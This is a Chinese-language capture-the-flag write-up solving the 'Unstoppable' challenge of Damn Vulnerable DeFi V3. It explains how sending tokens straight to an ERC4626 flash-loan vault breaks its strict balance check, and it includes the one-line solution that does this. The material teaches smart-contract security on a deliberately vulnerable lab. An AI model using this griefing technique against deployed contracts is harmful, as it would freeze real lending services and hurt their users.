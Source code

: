 ```yaml
---
title: Damn Vulnerable DeFi V3
tags:
    - blockchain
    - smart contract
    - DeFi
    - flashloan
---
```


## How to Play

```bash
$ git clone git@github.com:tinchoabbate/damn-vulnerable-defi.git
$ cd damn-vulnerable-defi
$ git checkout v3.0.0
$ yarn install
```

- Code solution in the `test/<challenge-name>/<challenge-name>.challenge.js`
- `yarn run <challenge-name>`

## 1. Unstoppable

> make the vault stop offering flash loans

- ERC4626 实现 ERC20 作为股权代币，`asset` 为 Vault 管理的底层代币
- `UnstoppableVault` 初始持有 $10^6$ DVT (ERC20) 和 $10^6$ oDVT (ERC4626)，`player` 初始持有 $10$ DVT

    ```js
    // unstoppable.challenge.js
    const TOKENS_IN_VAULT = 1000000n * 10n ** 18n;

    await token.approve(vault.address, TOKENS_IN_VAULT);
    await vault.deposit(TOKENS_IN_VAULT, deployer.address);
    ```

    ```js
    // ERC4626.sol
    function convertToShares(uint256 assets) public view virtual returns (uint256) {
        uint256 supply = totalSupply;   // the totalSupply of oDVT
        // 当初始 totalSupply 为 0 时，deposit assets 得到同等数量的 shares
        return supply == 0 ? assets : assets.mulDivDown(supply, totalAssets());
        // (assets * supply) / totalAssets()
    }

    function previewDeposit(uint256 assets) public view virtual returns (uint256) {
        return convertToShares(assets);
    }

    function deposit(uint256 assets, address receiver) public virtual returns (uint256 shares) {
        require((shares = previewDeposit(assets)) != 0, "ZERO_SHARES");

        // Need to transfer before minting or ERC777s could reenter.
        asset.safeTransferFrom(msg.sender, address(this), assets);

        _mint(receiver, shares);

        emit Deposit(msg.sender, receiver, assets, shares);

        afterDeposit(assets, shares);
    }
    ```

- 注意到 `convertToShares(totalSupply) != balanceBefore` 在使用依据 `totalSupply`(oDVT) 计算得到的 `shares` 和 `totalAssets()`(`UnstoppableVault` DVT 余额) 进行比较，尽管在初始情况下没有问题，但是... (⃔ *`ω´ * )⃕↝
    - `totalSupply` 只能通过 `deposit` / `mint` 增加，而 `balanceBefore` 可通过 DVT 的 `transfer` 增加
    - 要将 `totalSupply` 转换成 `assets` 应使用 `convertToAssets`

    ```js
    // ReentrancyGuard.sol
    modifier nonReentrant() virtual {
        require(locked == 1, "REENTRANCY");

        locked = 2;

        _;

        locked = 1;
    }
    ```

    ```js
    // UnstoppableVault.sol
    function totalAssets() public view override returns (uint256) {
        assembly {
            // slot 0 对应 ReentrancyGuard 中的 locked
            if eq(sload(0), 2) {
                mstore(0x00, 0xed3ba6a6)
                revert(0x1c, 0x04)
            }
        }
        return asset.balanceOf(address(this));
    }

    function flashLoan(
        IERC3156FlashBorrower receiver,
        address _token,
        uint256 amount,
        bytes calldata data
    ) external returns (bool) {
        if (amount == 0) revert InvalidAmount(0);
        if (address(asset) != _token) revert UnsupportedCurrency();
        uint256 balanceBefore = totalAssets();
        if (convertToShares(totalSupply) != balanceBefore) revert InvalidBalance();

        uint256 fee = flashFee(_token, amount);
        // SafeERC20 wrappers around ERC20 operations that throw on failure
        ERC20(_token).safeTransfer(address(receiver), amount);

        if (receiver.onFlashLoan(msg.sender, address(asset), amount, fee, data) != keccak256("IERC3156FlashBorrower.onFlashLoan"))
            revert CallbackFailed();

        ERC20(_token).safeTransferFrom(address(receiver), address(this), amount + fee);
        ERC20(_token).safeTransfer(feeRecipient, fee);
        return true;
    }
    ```

- 向 `UnstoppableVault` 发送 DVT 使得 `convertToShares(totalSupply) == balanceBefore` 无法成立就可以阻止闪电贷啦 XD

    ```js
    it('Execution', async function () {
        // get the contracts with player as signer
        token = token.connect(player);

        await token.transfer(vault.address, INITIAL_PLAYER_TOKEN_BALANCE);
    });
    ```

### 参考资料

- [ERC4626](https://docs.openzeppelin.com/contracts/4.x/api/token/erc20#ERC4626)
- [BigInt - JavaScript | MDN](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/BigInt)